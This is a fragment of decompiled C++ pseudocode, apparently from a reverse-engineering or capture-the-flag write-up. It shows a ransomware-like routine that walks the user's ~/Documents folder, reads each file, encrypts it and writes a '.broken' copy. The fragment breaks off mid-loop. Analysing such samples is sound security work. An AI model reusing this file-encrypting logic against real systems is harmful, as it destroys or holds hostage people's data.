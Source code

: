 ```c++
  char v19[528]; // [rsp+260h] [rbp-2B0h] BYREF
  char v20[46]; // [rsp+470h] [rbp-A0h] BYREF
  char v21; // [rsp+49Eh] [rbp-72h] BYREF
  char v22; // [rsp+49Fh] [rbp-71h] BYREF
  char v23[32]; // [rsp+4A0h] [rbp-70h] BYREF
  char v24[40]; // [rsp+4C0h] [rbp-50h] BYREF
  char *v25; // [rsp+4E8h] [rbp-28h]
  struct dirent *v26; // [rsp+4F0h] [rbp-20h]
  DIR *dirp; // [rsp+4F8h] [rbp-18h]

  std::allocator<char>::allocator(&v21, argv, envp);
  v3 = getenv("HOME");
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(v20, v3, &v21);
  std::allocator<char>::~allocator(&v21);
  v4 = "/Documents";
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator+=(v20, "/Documents");
  v5 = (const char *)std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::c_str(v20);
  dirp = opendir(v5);
  if ( dirp )
  {
    while ( 1 )
    {
      v26 = readdir(dirp);
      if ( !v26 )
        break;
      std::allocator<char>::allocator(&v22, v4, v6);
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(v15, v26->d_name, &v22);
      std::allocator<char>::~allocator(&v22);
      v7 = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::find_last_of(v15, ".", -1LL);
      std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::substr(v16, v15, v7 + 1, -1LL);
      v4 = ".";
      if ( !(unsigned __int8)std::operator==<char>(v15, ".") )
      {
        v4 = "..";
        if ( !(unsigned __int8)std::operator==<char>(v15, "..") )
        {
          v4 = "broken";
          if ( !(unsigned __int8)std::operator==<char>(v16, "broken") )
          {
            std::operator+<char>(v23, v20, "/");
            std::operator+<char>(v17, v23, v15);
            std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v23);
            std::ifstream::basic_ifstream(v19);
            v9 = std::operator|(8LL, 4LL);
            std::ifstream::open(v19, v17, v9);
            std::ofstream::basic_ofstream(v18);
            v10 = std::operator|(16LL, 4LL);
            std::operator+<char>(v24, v17, ".broken");
            std::ofstream::open(v18, v24, v10);
            std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v24);
            v25 = (char *)operator new[](0x400uLL);
            std::istream::read((std::istream *)v19, v25, 1024LL);
            encrypt(v25);
            std::ostream::write((std::ostream *)v18, v25, 1024LL);
            std::ifstream::close(v19);
```